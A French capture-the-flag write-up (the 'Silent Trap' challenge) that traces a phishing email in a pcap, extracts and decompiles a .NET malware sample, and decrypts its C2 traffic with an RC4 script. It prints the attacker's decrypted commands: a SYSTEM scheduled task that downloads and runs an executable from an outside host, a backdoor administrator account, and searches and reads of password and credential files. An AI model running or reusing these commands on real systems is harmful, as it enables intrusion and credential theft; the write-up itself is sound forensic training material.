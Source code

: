 # Silent Trap
### A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers. With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

Le challenge commence avec un fichier **pcap**, en l'éxaminant rapidement, c'est un échange de mail.

### Flag 1 : What is the subject of the first email that the victim opened and replied to ?

Le sujet de l'email peut être identifié sur le HTTP Stream 4 :   

![wireshark1](https://github.com/user-attachments/assets/4912275e-7eec-40b0-a9f0-e22b95711e61)

### Flag 2 : Question 2: On what date and time was the suspicious email sent ?

En continuant de chercher dans les HTTP Stream, on tombe là dessus sur le 8 :   

![wiresahrk2](https://github.com/user-attachments/assets/58814647-dba8-4678-ab40-14953ef00c81)
On y voit la date du mail, et l'envoi du fichier `Eldoria_Balance_Issue_Report.zip`.

### Flag 3 : What is the MD5 hash of the malware file ?

On repère alors le fameux ZIP envoyé : 

![wireshark3](https://github.com/user-attachments/assets/4aa0c099-ed5c-44cb-a8ef-7be54c912184)

On exporte alors ce fichier sur Wireshark, mais l'archive est protégé par un mot de passe (merci ):   

![zip mdp](https://github.com/user-attachments/assets/6042393e-d16d-499b-ac1f-21bc450eaa27)

On continue alors de fouiller un peu les mails, et on trouve l'échange de mails avec le mot de passe :   

![wireshark5](https://github.com/user-attachments/assets/6cd57513-f3cb-4efd-885f-eea85ca43dd5)

On peut donc avoir accès à l'archive zip et en extraire `Eldoria_Balance_Issue_Report.pdf.exe` après l'avoir clean-up avec :
```bash
dd if=Eldoria.zip of=clean2.zip bs=1 skip=1259
 ```
Puis on peut récupérer son hash md5 :   
 
![extraire](https://github.com/user-attachments/assets/75a48aab-0a4a-447f-8207-8f3363ba4ca4)
![md5](https://github.com/user-attachments/assets/ea3af082-033e-45f6-8b8b-b4d998318001)

### Flag 4 :  What credentials were used to log into the attacker’s mailbox ?

Donc maintenant, nous avons accès au malware qui est un `.NET executable`. On le désassemble grâce à **dotPeek**. 

Dans la premère fonction visible, on peut directement y trouver les identifiants, aussi visibles dans les trames wireshark.  

![creds](https://github.com/user-attachments/assets/dfee5cd9-c035-4a07-a0bb-955f2eec7db1)

### Flag 5 :  What is the name of the task scheduled by the attacker ?

Maintenant il nous faut comprendre comment l'encryption marche, pour pouvoir décrypter le reste des trames de la capture Wireshark. Ici on peut comprendre un peu plus ce qu'il ce passe :   

![fonctionnement file](https://github.com/user-attachments/assets/8da47bde-ce7e-4e6c-a684-5a7a6074b9cd)

Le malware essaye de se connecter à un serveur mail, pour ensuite y éxécuter des commandes CMD encodés en XOR et base64, probablement pour en extraire des fichiers à ce que montre les trames Wireshark.
En fouillant encore un peu, on trouve alors le fonctionnement de l'encryption, et on trouve la clé XOR, qui elle même est encrypté avec RC4.

Au passage, merci à @Kaddate pour m'aider à comprendre parfaitement tout ce qu'il ce passait dans ce programme :D

 ![xor key](https://github.com/user-attachments/assets/44b4dc62-28bc-4990-b582-8b9678c99c4b)
 ![exor](https://github.com/user-attachments/assets/0615f2a4-9ca1-4bc6-bc6f-7cd46b8ce7bc)

Maintenant qu'on à toutes ces informations, on peut décrypter les commandes CMD que l'attaquant éxécute sur le serveur en extrayant toutes les trams IMF après un FETCH de l'attaquant :   

![ttt](https://github.com/user-attachments/assets/76911b01-abf9-4dfd-bf26-fc4e65f835b3)

Puis, avec ce code : 
```python
import base64

def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])

    return bytes(out)

b64_data = """<data>"""
key = bytes([<xor_key>]) 

data = base64.b64decode(b64_data)
decrypted = rc4(key, data)

print(decrypted.decode(errors="ignore"))
```
(Merci beaucoup à @n0rozapy pour l'aide sur ce script)

On peut désormais décrypter toutes les commandes que l'attaquant envoi, on obtient alors : 
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn

schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

net user devsupport1 P@ssw0rd /add
net localgroup Administrators devsupport1 /add
reg query HKLM /f "password" /t REG_SZ /s
dir C:\ /s /b | findstr "password"

more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
more C:\backups\credentials.txt
whoami /priv
tasklist /v
```
Le nom de la tâche éxéctuée est **Synchronization**.

### Flag What is the API key leaked from the highly valuable file discovered by the attacker ?
On voit ici que l'attaquant fouille le fichier `credentials.txt`, on voit clairement sur Wireshark la réponse du serveur, donc le fichier en question :   

![api key](https://github.com/user-attachments/assets/88b839db-e126-4565-a11b-261f94ca1e84)

On exporte tout ça, puis on le passe dans le même script python que pour les commandes CMD. Ce qui nous donne :   

![api key finale](https://github.com/user-attachments/assets/47c51d14-206e-45da-a107-79f1f823d73b)

Et voilà, 6 flags sur 6. 
